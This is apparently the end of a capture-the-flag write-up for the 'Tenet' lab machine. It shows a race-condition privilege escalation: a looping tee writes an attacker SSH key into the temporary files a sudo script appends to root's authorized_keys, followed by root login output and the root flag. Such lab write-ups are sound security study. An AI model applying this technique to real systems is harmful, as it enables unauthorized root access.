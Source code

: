 ```bash
    /bin/cat $tmpName >>/root/.ssh/authorized_keys
    /bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

As we don't have the private key, we could possibly hijack it's execution because the function `addKey` creates a temporary file containing the public key to be added to `root`'s authorized keys. If we could manage to overwrite this file during the script execution, we could inject our public key instead of the one present in the script.

The challenge here is to predict the name of the file created, once it uses the `mktemp` command, but as we have an idea of its format (`/tmp/ssh-XXXXX`) we could find a way to paste the contents from our public key to all files matching the same pattern. After some tests and research, the command `tee` was the solution, allowing us to output a content to multiple files at the same time. The simple script below was created to do this task.

```bash
#!/bin/bash
while true; do
        echo "ssh-rsa AAAA..............BBBB= root@ubuntu" | tee /tmp/ssh-* 2> /dev/null;
done
```

With the above script in execution, simply executed the bash script with `sudo` and then connected to the box with the previously created ssh private key, granting me root access and allowing to get the root flag :smiley:

```bash
neil@tenet:/tmp$ sudo  /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:/tmp$ ssh -i tenet root@tenet.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
[...]
root@tenet:~# id
uid=0(root) gid=0(root) groups=0(root)
root@tenet:~# cat /root/root.txt
b05e57e997cda49b47757cd3f0f9ac43
```

I hope you guys have enjoyed this box resolution!

See you in the next post! :smiley:
